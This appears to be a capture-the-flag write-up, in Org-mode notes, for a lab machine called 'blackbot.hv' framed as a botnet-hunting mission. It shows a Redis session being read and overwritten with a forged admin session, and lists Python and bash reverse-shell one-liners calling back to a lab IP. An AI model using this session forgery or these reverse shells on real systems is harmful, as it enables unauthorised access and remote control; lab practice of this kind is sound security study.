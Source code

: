 #+title: Bot Busters
#+AUTHOR: gabriel

* Intro
Get ready for an exciting mission! You need to join an operation to complete a critical mission to detect a botnet group lurking in the dark corners of the cyber world.

Recent cyber intelligence reports indicate that a group behind several DDoS attacks in the past is planning to launch several DDoS attacks in the near future. Many companies, institutions and organizations are known to be targeted. As a result of the analysis and research, a server used by the attackers was identified. It is thought that a botnet network is used through this server. We will reach the exact result after your research.

You will start your mission to uncover these attackers who have caused many services to collapse and chaos to reign. In order to stop the cyber attackers behind these botnet attacks, you will first need to take over their botnet site and server. This will stop the attacks and identify who their targets are.

This exciting mission will require the highest level of strategy and speed to use your technical knowledge to stop the cyber attack. Your courage, intelligence and skills will be the keys to combating the insidious threats of the cyber world.

* open ports
- 22
- 80
- 6379

    *GEt and modify the cookie value at REdis* ->
  #+begin_src sh
[10:09][]~ ✮ redis-cli -h blackbot.hv
blackbot.hv:6379> keys *
1) "df7e0133-17b0-4430-a1ef-3c0edcc2d85a"
blackbot.hv:6379> get df7e0133-17b0-4430-a1ef-3c0edcc2d85a
"{\"userID\":\"fa6d90c4-feb0-4a9c-af59-05aa6d014476\",\"username\":\"jon\",\"isA
dmin\":false,\"isPremium\":false}"
blackbot.hv:6379> set ded8d036-0285-4930-a69d-e083e13761da "{\"userID\":\"4204da
10-e68e-4020-8f68-c96d253bca71\",\"username\":\"jon\",\"isAdmin\":true,\"isPremi
um\":true}"
OK
blackbot.hv:6379>
  #+end_src

*SEt new value at redis* ->
: set ded8d036-0285-4930-a69d-e083e13761da "{\"userID\":\"4204da10-e68e-4020-8f68-c96d253bca71\",\"username\":\"jon\",\"isAdmin\":true,\"isPremium\":true}"


** payloads

*python3*
: import sys,socket,os,pty;s=socket.socket();s.connect(("10.8.58.60",6969));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")

*bash*
: bash -i >& /dev/tcp/10.8.58.60/7777 0>&1
